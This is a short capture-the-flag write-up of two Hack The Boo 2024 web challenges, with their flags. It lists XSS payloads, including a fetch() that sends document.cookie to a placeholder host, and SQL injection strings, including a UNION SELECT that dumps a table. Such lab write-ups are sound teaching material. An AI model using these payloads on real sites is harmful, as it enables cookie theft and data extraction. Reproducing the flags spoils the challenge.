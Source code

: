 # Hack The Boo 2024 Write-Up

## WEB

### Phantom's Script

![image](https://github.com/user-attachments/assets/1d5b113b-039a-46ba-8470-0c8688fd03c4)

Basic XSS Payload:

`<script>alert('Boo!');</script>`

`<script>fetch('[host]')</script>`

More Diabolical Payload:

`<img src=x onerror="alert('Boo!')">`

`<img src=x onerror="fetch('[HOST]' + document.cookie)" />`

Use XSS payload `<script>fetch('[host]')</script>`

![image](https://github.com/user-attachments/assets/3bd034b8-1f32-4c04-9ebe-b96564676f02)

FLAG:

    HTB{xSS-1S_E4SY_wh4t_d0_y0u_th1nk?_5bae9bc761ca417e235b3b735ad26e1d}

### Unholy Union

![image](https://github.com/user-attachments/assets/65afbf7a-4d21-431c-98af-08696dc38732)

    ' OR '1'='1

![image](https://github.com/user-attachments/assets/8cd95fa3-2dc9-42a9-ae86-766d1c988a39)

Payload:

    A' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(flag) FROM flag) -- -

FLAG:

    HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_5fa4eea67494d90a2d2ce205e7dbd1dd}
